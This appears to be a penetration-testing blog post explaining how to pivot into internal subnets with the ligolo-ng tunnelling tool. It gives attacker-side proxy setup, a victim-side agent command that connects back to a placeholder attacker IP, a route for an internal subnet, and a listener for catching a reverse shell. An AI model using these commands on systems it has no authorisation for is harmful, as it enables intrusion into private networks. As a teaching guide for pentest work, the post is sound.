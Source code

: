 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via `git clone https://github.com/nicocha30/ligolo-ng.git` . 

You can then proceed to start, add and start the proxy server via these  commands.

Attacker Machine:
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod + proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```
./proxy -selfcert -laddr 0.0.0.0:443
```


![](/assets/images/ligolo/1.png)

Victim Machine (Windows or Linux):

Upload the respective file. 
```
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![](/assets/images/ligolo/2.png)

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![](/assets/images/ligolo/3.png)

For this machine you must also run ```
```
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![](/assets/images/ligolo/4.png)

It also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is must faster than a SOCKS proxy.

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```


